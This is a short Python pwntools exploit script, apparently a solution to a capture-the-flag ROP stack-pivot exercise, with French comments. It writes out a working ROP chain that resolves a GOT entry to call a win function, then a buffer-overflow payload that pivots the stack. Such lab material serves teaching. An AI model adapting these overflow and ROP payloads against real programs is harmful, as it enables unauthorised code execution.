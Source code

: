 ```python
leak = int(leak,16)
log.info(f"{leak=:x}")
log.info(f"{plt_foothold=:x}")
log.info(f"{got_foothold=:x}")
log.info(f"offset ret2win = 0x{off_ret2win}")

# Message 1
# ROP chaine d'exploitation
PL=b''
PL+=p32(plt_foothold)           # charche le GIT
PL+=p32(g_pop_eax)              #
PL+=p32(got_foothold)           #
PL+=p32(g_mov_eax_eax)          # eax <= [got_foothold]
PL+=p32(g_pop_ebx)
PL+=p32(off_ret2win)            # ebx <= offset_ret2win
PL+=p32(g_add_eax_ebx)          # eax <=ret2win
PL+=p32(g_call_eax)

io.sendlineafter(b"> ",PL)

# Message 2 : pivot
# Offset de debordement incluant SEBP
offset=0x2c

PL =b"A"*offset
PL+=p32(g_pop_eax)
PL+=p32(leak)
PL+=p32(g_xchg_eax_esp)
PL+=p32(g_leave)    # pour SEIP
io.sendlineafter(b"> ",PL)

io.interactive()

```
